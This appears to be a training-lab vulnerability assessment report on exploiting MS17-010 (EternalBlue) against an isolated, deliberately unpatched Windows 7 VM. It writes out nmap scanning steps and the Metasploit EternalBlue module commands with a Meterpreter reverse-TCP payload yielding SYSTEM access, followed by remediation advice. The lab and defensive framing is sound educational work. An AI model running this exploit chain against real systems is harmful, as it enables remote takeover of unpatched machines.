 **Vulnerability Assessment Report — Windows 7 Exploitation Lab**

**Table of Contents**

1. **Executive Summary**
2. **Introduction**
3. **Scope & Methodology**
4. **Findings**
    - 4.1 Host Discovery
    - 4.2 Service Enumeration
    - 4.3 Vulnerability Scanning
    - 4.4 Exploitation
    - 4.5 post-Exploitation
5. **Remediation Recommendations**
6. **Conclusion**
7. **Appendix: Lab Configuration & Updated Tool References**

**1\. Executive Summary**

This report details a controlled lab exploitation of a **Windows 7 Professional SP1 x64** system using a **Kali Linux 2025.2** attacker machine. A critical **MS17-010 (EternalBlue)** vulnerability was identified and exploited, demonstrating how legacy systems with SMBv1 enabled remain exposed to **remote code execution (RCE)** threats.

The lab exercise validated that **unpatched end-of-life operating systems** can be compromised easily using **modern open-source security frameworks**, highlighting the importance of **patch management, secure configurations, and network segmentation**.

**2\. Introduction**

**Objective:**

- Identify vulnerabilities on a Windows 7 target.
- Exploit **MS17-010** to achieve SYSTEM-level access.
- Validate post-exploitation capabilities using up-to-date tools and techniques.

**Lab Environment:**

- **Attacker:** Kali Linux 2025.2 — IP: 192.168.20.128
- **Target:** Windows 7 Professional SP1 x64 — IP: 192.168.20.130
- **Network:** Isolated NAT network (192.168.20.0/24)

**3\. Scope & Methodology**

**Scope:**

- Single target: Windows 7 (192.168.20.130)
- Focus: **SMBv1 service exploitation**
- Tools: **Nmap**, **Metasploit**, with references to **BloodHound** for possible AD enumeration in extended scenarios.

**Methodology:**

| Step | Tool/Command | Purpose |
| --- | --- | --- |
| Host Discovery | nmap -sn 192.168.20.0/24 | Identify live hosts |
| Service Enumeration | nmap -sV 192.168.20.130 | Detect open ports & services |
| Vulnerability Scan | nmap --script vuln 192.168.20.130 | Identify exploitable vulnerabilities |
| Exploitation | msfconsole | Exploit MS17-010 |
| Post-Exploitation | meterpreter | Validate privileges & gather system info |

**4\. Findings**

**4.1 Host Discovery**

nmap -sn 192.168.20.0/24

**Result:**

- 5 active hosts detected
- Windows 7 confirmed at **192.168.20.130**

**4.2 Service Enumeration**

nmap -sV 192.168.20.130

**Open Ports:**

- 135/tcp — MS RPC
- 139/tcp — NetBIOS
- 445/tcp — SMB (vulnerable to EternalBlue)

**OS Fingerprint:** Windows 7 Professional SP1 x64

**4.3 Vulnerability Scanning**

nmap --script vuln 192.168.20.130

**Critical Finding:**

- **MS17-010 (CVE-2017-0143)**
  - SMBv1 enabled
  - **High Risk:** Remote Code Execution confirmed exploitable

**4.4 Exploitation**

**Tool:** Metasploit Framework (2025.2, updated)

msfconsole

**Module Used:**

use exploit/windows/smb/ms17_010_eternalblue

**Steps:**

1. set RHOST 192.168.20.130
2. set PAYLOAD windows/x64/meterpreter/reverse_tcp
3. exploit

**Result:**

- Successful **reverse shell**
- Meterpreter session established

**4.5 Post-Exploitation**

sysinfo

- OS: Windows 7 SP1 x64

getuid

- User: **NT AUTHORITY\\SYSTEM**

Full **SYSTEM-level control** achieved.

**5\. Remediation Recommendations**

| Risk | Recommended Action |
| --- | --- |
| Critical: MS17-010 | Apply patch **KB4012212** immediately. |
| SMBv1 Exposure | Disable SMBv1 on all Windows systems. |
| Legacy OS | Upgrade to a supported OS (Windows 10/11). |
| Network Segmentation | Restrict SMB traffic; isolate legacy systems. |
| Detection & Response | Deploy modern EDR/XDR solutions to monitor SMB and lateral movement. |
| Penetration Testing Environment | Regularly update **Kali Linux** and its tools via official repositories: |

**6\. Conclusion**

This assessment confirms that **unpatched Windows 7 systems remain dangerously exploitable** by EternalBlue. The attack was trivial with modern tools like **Metasploit**, demonstrating the urgency of migrating away from unsupported systems and disabling obsolete protocols like **SMBv1**.

Regular vulnerability scans, prompt patching, and continuous monitoring are critical for defending against well-known exploits.

**7\. Appendix: Lab Configuration & Updated Tool References**

**Virtualization:**

- Hypervisor: VMware Workstation Pro
- Network: NAT, fully isolated

**Attacker VM:**

- Kali Linux 2025.2
- Tools verified:
  - **Nmap** (nmap --version)
  - **Metasploit Framework** (msfconsole --version)
  - **BloodHound CE** (available for Active Directory mapping if required)

**Target VM:**

- Windows 7 Professional SP1 x64
- SMBv1 enabled by default
- No security patches installed (intentionally vulnerable)

**References**

1. Microsoft Security Bulletin. (2017). \*MS17-010: Security Update for Microsoft Windows SMB Server (4013389)\*.  
    <https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010>
2. MITRE Corporation. (2017). \*CVE-2017-0143: Windows SMB Remote Code Execution Vulnerability\*.  
    <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143>
3. Nmap Project. (2025). _Nmap Network Scanning: Official Documentation_.  
    <https://nmap.org/book/man.html>
4. Rapid7. (2025). _Metasploit Framework Documentation: EternalBlue Exploit Module_.  
    <https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/>
5. Microsoft. (2020). _How to detect, enable, and disable SMBv1, SMBv2, and SMBv3 in Windows_.  
    <https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3>
6. US-CERT. (2017). \*Alert (TA17-132A): SMB Security Best Practices\*. Cybersecurity & Infrastructure Security Agency.  
    <https://www.cisa.gov/news-events/alerts/2017/05/12/alert-ta17-132a>
7. National Institute of Standards and Technology (NIST). \*National Vulnerability Database (NVD) - CVE-2017-0143\*.  
    <https://nvd.nist.gov/vuln/detail/CVE-2017-0143>
8. SANS Institute. (2024). _Windows Security Hardening Checklist_.  
    <https://www.sans.org/posters/windows-security-hardening-cheat-sheet/>
